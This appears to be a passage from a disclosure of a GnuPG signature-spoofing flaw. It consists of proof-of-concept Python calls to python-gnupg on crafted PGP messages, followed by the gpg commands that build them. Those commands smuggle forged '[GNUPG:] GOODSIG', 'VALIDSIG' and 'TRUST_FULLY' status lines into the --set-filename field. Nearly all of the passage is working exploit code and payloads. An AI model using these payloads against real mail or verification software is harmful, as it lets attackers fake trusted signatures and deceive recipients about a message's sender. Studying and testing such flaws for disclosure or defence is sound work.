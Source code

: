     poc2msg = '''\
    -----BEGIN PGP MESSAGE-----

    y8BvYv8nCltHTlVQRzpdIEdPT0RTSUcgRjJBRDg1QUMxRTQyQjM2OCBQYXRyaWNr
    IEJydW5zY2h3aWcgPHBhdHJpY2tAZW5pZ21haWwubmV0PgpbR05VUEc6XSBWQUxJ
    RFNJRyBGMkFEODVBQzFFNDJCMzY4IHggMTUyNzcyMTAzNyAwIDQgMCAxIDEwIDAx
    CltHTlVQRzpdIFRSVVNUX0ZVTExZCltHTlVQRzpdIEJFR0lOX0RFQ1JZUFRJT04K
    W0dOVVBHOl0gREVDUllQVElPTl9PS0FZCltHTlVQRzpdIEVOQ19UTyBBM0FEQjY3
    QTJDREI4QjM1IDEgMApncGc6ICdbIaFeU2VlIHlvdSBhdCB0aGUgc2VjcmV0IHNw
    b3QgdG9tb3Jyb3cgMTBhbS4K
    =Qs3t
    -----END PGP MESSAGE-----
    '''

    result2 = gpg.decrypt(poc2msg)
    print("[poc2] Was the spoofed signature and encryption valid? %r"
          % result2.valid)
          
    poc3msg = '''\
    -----BEGIN PGP MESSAGE-----

    owJ42m2PsWrDMBiE9zzF1Uu2YDmJZYcQasV2oLRLHegQOij4txC1rGBZQ1+lT9M9
    79O5gkAppceNd8d318/H85dxaj5TF7VBo9UgJz8SjGwJR09gCR78gCRmGWK2CU7W
    KJ6wr5rjrfRH3ulB4bkp8EbvYDFfVnxViWUmyrRk+Yqne1FnVZGXos5rwVNWpJz/
    O6Wd8zQiOuu+v6euW9hRRbfkwdoW7ge3G61B9BJyWhoI3waGyQ7Y/q7uIpw63/ev
    mIfLp7vrhyGaYAhyCqDSzL4B9fBP7w==
    =zQV0
    -----END PGP MESSAGE-----
    '''

    result3 = gpg.verify(poc3msg)
    print("[poc3] Was the spoofed signature valid? %r" % result3.valid)
</pre>

The GnuPG blobs were generated with (via Markus Brinkmann's suggestions):

    ## PoC #1
    echo 'Please send me one of those expensive washing machines.' | \
    gpg --armor -r a3adb67a2cdb8b35 --encrypt --set-filename "`echo -ne \''\
    \n[GNUPG:] GOODSIG DB1187B9DD5F693B Patrick Brunschwig <patrick@enigmail.net>\
    \n[GNUPG:] VALIDSIG 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B 2018-05-31 1527721037 0 4 0 1 10 01 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B\
    \n[GNUPG:] TRUST_FULLY 0 classic\
    \ngpg: '\'`" > poc1.msg

    ## PoC #2
    echo "See you at the secret spot tomorrow 10am." | \
    gpg --armor --store --compress-level 0 --set-filename "`echo -ne \''\
    \n[GNUPG:] GOODSIG F2AD85AC1E42B368 Patrick Brunschwig <patrick@enigmail.net>\
    \n[GNUPG:] VALIDSIG F2AD85AC1E42B368 x 1527721037 0 4 0 1 10 01\
    \n[GNUPG:] TRUST_FULLY\
    \n[GNUPG:] BEGIN_DECRYPTION\
    \n[GNUPG:] DECRYPTION_OKAY\
    \n[GNUPG:] ENC_TO 50749F1E1C02AB32 1 0\
    \ngpg: '\'`" > poc2.msg
